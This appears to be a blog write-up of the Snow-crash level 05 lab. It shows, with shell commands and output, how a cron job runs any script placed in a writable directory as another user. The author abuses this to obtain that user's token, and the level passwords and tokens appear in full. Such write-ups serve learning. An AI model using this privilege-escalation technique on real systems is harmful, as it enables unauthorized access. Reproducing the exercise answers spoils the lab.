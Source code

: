 ---
title:  "Snow-crash Level05"
excerpt: "Project SECURITY. This project is a modest introduction to the wide world of cyber security. A world where you’ll have no margin for errors."

tags:
  - CyberSecurity
  - Github
  - Git
toc: true
toc_sticky: true

date: 2024-2-13
last_modified_at: 2024-02-13
categories:
- ecole42

#### 1. The password of `Level05` is the token that got from `Level04`.

```
ne2searoevaevoem4ov4ar8ap

```
#### 2. So, try login to `Level05` with the password we got from `Level04` and try to put the command 'ls -la'. Let's see inside in level05.

```
level05@localhost's password: ne2searoevaevoem4ov4ar8ap
You have new mail.
level05@SnowCrash:~$
```
```bash

level05@SnowCrash:~$ ls -la
total 12
dr-xr-x---+ 1 level05 level05  100 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level05 level05  220 Apr  3  2012 .bash_logout
-r-x------  1 level05 level05 3518 Aug 30  2015 .bashrc
-r-x------  1 level05 level05  675 Apr  3  2012 .profile
```

It says that there is a new mail. 

#### 4. So, I found the small hint from /var/mail/level05

```bash
level05@SnowCrash:~$ cd /var/mail
level05@SnowCrash:/var/mail$ ls -la
total 4
drwxrwsr-x  1 root mail  60 Mar  5  2016 .
drwxr-xr-x  1 root root 160 Mar 12  2016 ..
-rw-r--r--+ 1 root mail  58 Feb 13 16:49 level05
```

there is a file `level05`.

```bash
level05@SnowCrash:/var/mail$ cat level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
So, I was looking for /usr/sbin/openarenaserver and we found a script as below. Let's take a look inside one by one.

```bash
level05@SnowCrash:/var/mail$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do 

	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```
That means that the script goes through each file in the specified directory, sets a CPU time limit of 5 seconds for its execution, executes the script with debugging output, and then removes the script file.

We can't and should not put anything inside `/opt/openarenaserver` because this directory will be deleted in every 2 minutes, so we should put our file safely in `/tmp` file.

We therefore, need to create a bash script in that directory,to get the file and to make sure that the optut is redirected to a file in `/tmp`. So, the overall effect of this command is to create a file named `getflag05` in the `/opt/openarenaserver/` directory.

```bash
level05@SnowCrash:/var/mail$ echo 'getflag > /tmp/flag05'
getflag > /tmp/flag05
level05@SnowCrash:/var/mail$ echo 'getflag > /tmp/flag05' > /opt/openarenaserver/getflag05
level05@SnowCrash:/usr/sbin$ cat /tmp/flag05
Check flag.Here is your token : viuaaale9huek52boumoomioc

level05@SnowCrash:/var/mail$ cat /tmp/flag05
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

#### 5.  We got a token for next `level06`

```
viuaaale9huek52boumoomioc
```